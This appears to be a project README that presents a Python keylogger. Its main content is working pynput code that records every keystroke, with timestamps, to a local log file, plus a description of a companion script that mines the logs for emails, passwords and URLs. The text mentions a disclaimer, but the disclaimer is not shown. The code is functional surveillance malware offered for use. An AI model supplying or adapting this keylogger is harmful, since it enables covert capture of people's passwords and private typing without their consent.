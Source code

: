 # Keylogger


## What is a keylogger?
This is a keylogger script to be able to log any key strokes. Then another script for analysis. This analysis script will detect and find any patterns that relate to emails, passwords, and URLs. As well as the most common word typed. Please read the Disclaimer to use properly.


```
from pynput.keyboard import Listener
import time
import os

# File to extract logs into
log_file = "raw_log.txt"

# Check if file exists, then creats/writes into the file. Extracting the time when the keylogger is activated
if not os.path.exists(log_file):
    with open(log_file, "w") as file:
        file.write("Keylogger started at: {}\n".format(time.ctime()))

# Function called with every key pressed, logs it into file with that current timestamp
def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write("{0} - {1}\n".format(time.ctime(), key.char))
    except AttributeError:
        with open(log_file, "a") as file:
            file.write("{0} - {1}\n".format(time.ctime(), key))
        
        # Break zone, when esc key is entered, the keylogger stops
        if key == key.esc:
            return False

# Enables input from keyboard
with Listener(on_press=on_press) as listener:
    listener.join()
```


